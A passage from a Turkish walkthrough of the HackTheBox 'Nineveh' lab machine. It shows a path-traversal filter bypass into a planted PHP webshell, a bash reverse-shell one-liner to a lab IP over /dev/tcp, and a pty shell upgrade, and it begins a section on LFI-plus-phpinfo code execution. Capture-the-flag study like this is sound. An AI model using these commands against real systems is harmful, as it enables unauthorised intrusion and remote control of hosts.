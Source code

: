 
Bir süre fark etmedim ama anlaşılan o ki, parametrede **ninevehNotes** ifadesi kontrol ediliyor, ya da sadece **"No Note is selected"** (Seçili Not Yok) mesajını gösteriyor. Ancak bunun etrafından dolanmanın birkaç yolu var; mesela uzantıyı kaldırıp dizinleri yukarıya çıkarabilir veya **/** ile başlayıp mevcut olmayan **ninevehNotes** klasörüne girip hemen çıkmak için **../** kullanabilirim. Sistem, bu iki yöntemi engelliyor ama PHP'nin string kontrolünü geçmesine izin veriyor.


### RCE

Şimdi daha önce http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xdf.php&cmd=id adresinde bıraktığım webshell'e erişebiliyorum

![Pasted image 20250207230127.png](/img/user/resimler/Pasted%20image%2020250207230127.png)


### Shell

Bir shell almak için, komutu şu şekilde değiştireceğim:

```
bash -c 'bash -i >%26 /dev/tcp/10.10.16.9/443 0>%261'
```

Bir shell almak için, cmd'yi bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/443 0>%261' olarak değiştireceğim (& işaretlerini url olarak kodlamak önemlidir, aksi takdirde yeni bir parametre başlatıyormuş gibi yorumlanırlar). Nc'de bir shell alıyorum:

![Pasted image 20250207230411.png](/img/user/resimler/Pasted%20image%2020250207230411.png)


Python2, Nineveh'de yüklü değil, ama Python3 var.

```
www-data@nineveh:/var/www/html/department$ python -c 'import pty;pty.spawn("bash")'
The program 'python' can be found in the following packages:
 * python-minimal
 * python3
Ask your administrator to install one of them
www-data@nineveh:/var/www/html/department$ python3 -c 'import pty;pty.spawn("bash")'
```

Tamamen işlevsel bir shell elde etmek için Ctrl-z, stty raw -echo, fg, reset yapacağım.

www-data olarak, /home/amrois içinde user.txt dosyasını görebiliyorum ama okuyamıyorum.


## Shell as www-data (via phpinfo.php)

### Background

Ippsec'in bu tekniği [**Poison**](https://youtu.be/rs4zEwONzzk?t=601) videosunda istismar ettiğini hatırlıyorum. **Insomnia Security**'nin 2011 tarihli çok hoş bir [makalesi](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf) var, LFI + PHPINFO = RCE nasıl çalıştığını anlatıyor. İlk olarak, PHP'nin **file_uploads = on** olarak yapılandırılmış olması gerekiyor. Neyse ki, burada durum böyle.
